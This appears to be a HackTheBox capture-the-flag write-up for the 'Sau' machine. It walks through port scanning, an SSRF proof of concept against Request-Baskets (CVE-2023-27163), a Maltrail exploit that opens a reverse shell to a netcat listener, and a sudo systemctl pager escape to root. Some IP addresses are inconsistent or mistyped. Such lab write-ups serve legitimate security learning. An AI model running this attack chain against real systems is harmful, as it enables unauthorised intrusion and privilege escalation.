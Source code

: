 ```yaml
---
layout: page
title: "Sau "
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Sau

HackTheBox: Medium

<aside>
💡 Sau is a medium linux machine which exploit vulnerabilities due to older versions

</aside>

## 1: Enumeration

- Scanning ports

```bash
$ sudo nmap -n -Pn -p- 10.129.229.26
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-24 21:32 PDT
Nmap scan report for 10.129.229.26
Host is up (0.27s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 1388.12 seconds
```

We have a web service at 55555 it allows inspect and depure http requests 

It is vulnerable to (CVE-2023-27163) 

```bash
$ ./CVE-2023-27163.sh http://10.129.229.26:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "sbqmby" proxy basket...
> Basket created!
> Accessing http://10.10.11.234:55555/xsikpk now makes the server request to http://127.0.0.1:80.
> Authorization: FfWcOUyPi4nGFDSfzSDz_9NrvirREpBzXqJQoiy0-2DqK5NM
```

That POC make a reques to 80 port and we can get to it

## 2: User flag

![Untitled]({{ '/assets/images/6fd0d9dd-d49e-4e79-91de-37466e0d34f5-export-216ae02a-fe78-48b7-9c84-c96a4313992c/6fd0d9dd-d49e-4e79-91de-37466e0d34f5-export-216ae02a-fe78-48b7-9c84-c96a4313992c_Untitled.png' | relative_url }})

We find a Maltrail service running with an unprotected version

We find another POC 

```bash
$ python3 exploit.py 10.10.14.246 4444 http://10.10.11.234:55555/sbqmby
Running exploit on http://10.10.11.234:55555/sbqmby
```

```bash
$ nc -nlvp 4444
listening on [any] 4444...
connect to [10.10.14.246] from (UNKNOWN) [10..10.11.234] 38442
$ whoami
whoami
puma
```

## 3: Priv esc

Check for privileges

```bash
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

It appears that we are able to examine the trail.service's status.

```bash
sudo /usr/bin/systemctl status

while it load

!/bin/sh -- !sh

We are root

```
